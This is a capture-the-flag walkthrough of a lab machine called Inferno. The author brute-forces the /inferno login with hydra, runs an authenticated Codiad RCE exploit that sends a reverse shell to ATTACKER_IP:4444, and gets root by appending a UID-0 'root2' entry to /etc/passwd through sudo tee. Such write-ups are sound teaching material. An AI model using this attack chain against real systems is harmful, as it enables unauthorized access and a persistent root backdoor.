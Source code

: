 # Inferno

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `hydra`,  `Codiad`,  `tee`,  `openssl`

---

##### Written: 16/01/2022

##### IP address: 10.10.93.17

---

### [ Locate and find local.txt ]

Let's start things off with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.93.17
```

**Results:**

```
PORT      STATE SERVICE           REASON         VERSION
21/tcp    open  ftp?              syn-ack ttl 61
22/tcp    open  ssh               syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[REDACTED]
23/tcp    open  telnet?           syn-ack ttl 61
25/tcp    open  smtp?             syn-ack ttl 61
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  kerberos-sec?     syn-ack ttl 61
106/tcp   open  pop3pw?           syn-ack ttl 61
110/tcp   open  pop3?             syn-ack ttl 61
194/tcp   open  irc?              syn-ack ttl 61
...
...
...
30865/tcp open  unknown           syn-ack ttl 61
57000/tcp open  unknown           syn-ack ttl 61
60177/tcp open  unknown           syn-ack ttl 61
60179/tcp open  unknown           syn-ack ttl 61
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are a whole bunch of ports open (90 in fact), but only 2 of them were actually legitimate: **22 (SSH)** and **80 (HTTP)**

<br>

Let's check out the HTTP website:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a website with a picture depicting the nine circles of Hell as described in the famous 14th century poem, Dante's Inferno. There is also an excerpt (in latin) from the poem at the top of the page.

I first tried to do some manual enumeration, such as checking the source code and the robots.txt file. However, I was unable to find anything fruitful. 

Next, I ran a Gobuster scan to enumerate any hidden directories:

```
gobuster dir -u http://10.10.93.17/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

<img style="float: left;" src="screenshots/screenshot2.png">

After a short while, it was able to find out a **/inferno** directory!

Let's take a look at this directory:

<img style="float: left;" src="screenshots/screenshot3.png">

We are asked to authenticate ourselves.

I tried common default credentials like **admin:admin**, but they didn't work. Let's use `hydra` to run a dictionary attack! We'll use **admin** as our username as that is the most common administrator username:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -f 10.10.93.17 http-get /inferno
```

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! Hydra managed to find the admin's password:

> dante1

We can now log into **/inferno**:

<img style="float: left;" src="screenshots/screenshot5.png">

And we get another login screen... 

It seems like the machine is running **Codiad** (http://codiad.com/).

---

*Codiad is an open source, web-based, cloud IDE and code editor with minimal footprint and requirements.*

---

Fortunately for us, the admin reuses their credentials! Hence, we can simply use:

> **admin:dante1**

to log in:

<img style="float: left;" src="screenshots/screenshot6.png">

We are now brought to the Codiad dashboard.

There were many files and folders (as seen on the left), but I was unable to find anything interesting amongst them.

I then tried to upload a file of my own, but it seems that the project has been set to read-only mode:

<img style="float: left;" src="screenshots/screenshot7.png">

Let's use `searchsploit` to look for any exploits that exist for Codiad:

```
searchsploit codiad
```

<img style="float: left;" src="screenshots/screenshot8.png">

There are a bunch of exploits that allow us to achieve remote code execution on the machine. They do require us to be authenticated, which is no issue as we already have the administrator's credentials. Also, I did some research online and found out that 2.8.4 is the latest version of Codiad. Hence, these exploits should work for us!

Let's use the first exploit: `Codiad 2.8.4 - Remote Code Execution (Authenticated)`

<br>

To run this exploit, we use the following command:

```
python3 49705.py http://admin:dante1@10.10.93.17/inferno/ admin dante1 ATTACKER_IP 4444 linux
```

Notice our URL provided is `http://admin:dante1@10.10.93.17`. This is to pass the HTTP basic authentication when trying to access /inferno.

The exploit will prompt us to run 2 separate commands on 2 other terminals. Our setup should look like this:

<img style="float: left;" src="screenshots/screenshot9.png">

Once we hit 'Y', the exploit will run and open a reverse shell for us!

<img style="float: left;" src="screenshots/screenshot10.png">

We're in :grin:

After awhile, I noticed that there was a cronjob that was logging me out every 1 minute. This meant that we had to keep re-running the exploit and logging back in.

*(Apparently the creator of the room intentionally made it this way so as to simulate hell lol)*

Looking around the machine, we find out that there is a user called **dante**:

<img style="float: left;" src="screenshots/screenshot11.png">

dante's home directory contains **local.txt**, but we do not have the permissions to access it:

<img style="float: left;" src="screenshots/screenshot12.png">

I dug through dante's directory and realized that it was filled with different Linux binaries that have been renamed. For example, in /Desktop, we have a binary called **inferno.txt**. From the help menu of this binary, we know that it is actually `rm`:

<img style="float: left;" src="screenshots/screenshot13.png">

Fortunately for us, we don't actually have to use any of these renamed binaries as there's actually a hidden file called **.download.dat** located in **/Downloads**:

<img style="float: left;" src="screenshots/screenshot14.png">

.download.dat contained a message that has been converted to hex. Let's convert it back using CyberChef (https://gchq.github.io/CyberChef/):

<img style="float: left;" src="screenshots/screenshot15.png">

The decoded message actually contains **dante's credentials**:

> dante : V1rg1l10h3lpm3

With that, we can log into dante's account directly via SSH:

<img style="float: left;" src="screenshots/screenshot16.png">

We can then obtain **local.txt** from dante's home directory:

<img style="float: left;" src="screenshots/screenshot17.png">

---

### [ Locate and find proof.txt  ]

Now let's find a way to escalate our privileges.

The first thing I did was to check dante's **sudo privileges**:

<img style="float: left;" src="screenshots/screenshot18.png">

It looks like we can run `tee` as root! We can find a way to exploit this from GTFOBins (https://gtfobins.github.io/gtfobins/tee/):

<img style="float: left;" src="screenshots/screenshot19.png">

With `tee`, we'll be able to append any text we want to any file on the system.

One way we can abuse this is to create a new user with root privileges by appending the following line to the **/etc/passwd** file:

```
root2:PASSWORD_HERE:0:0:root:/root:/bin/bash
```

Once added to /etc/passwd, there will be a new user called **root2** which will have a UID and GID of **0 (root)**. We'll then be able to log into this account as we control the password!

To generate a password of our choice, we can use `openssl`:

```
openssl passwd -1 test123
```

*(`-1` indicates to use the MD5 based BSD password algorithm 1)*

Here, I'm generating a hash of the password 'test123':

<img style="float: left;" src="screenshots/screenshot20.png">

Thus, the final line that we will append to /etc/passwd is:

```
root2:$1$VXrlEbBc$JQ890LMMpJXdeVQeJLrFJ/:0:0:root:/root:/bin/bash
```

---

*From my research (https://security.stackexchange.com/questions/151700/privilege-escalation-using-passwd-file), I found out that we can also leave the password field in our /etc/password entry empty. This allows us to log into our created account without a password.*

*However this will not work if the machine has disabled passwordless accounts completely, which is the case here. Hence, I had no choice but to set up a password.*

---

With everything set up, let's use `tee` to add the line:

```
LFILE=/etc/passwd
echo 'root2:$1$VXrlEbBc$JQ890LMMpJXdeVQeJLrFJ/:0:0:root:/root:/bin/bash' | sudo tee -a "$LFILE"
```

<img style="float: left;" src="screenshots/screenshot21.png">

We can see that our payload has been successfully appended into /etc/passwd!

With that, we can log into our newly-created **root2** account:

```
su root2
```

<img style="float: left;" src="screenshots/screenshot22.png">

root2 will have root privileges as its UID and GID are both 0. Thus, we can simply navigate to /root and obtain **proof.txt**:

<img style="float: left;" src="screenshots/screenshot23.png">
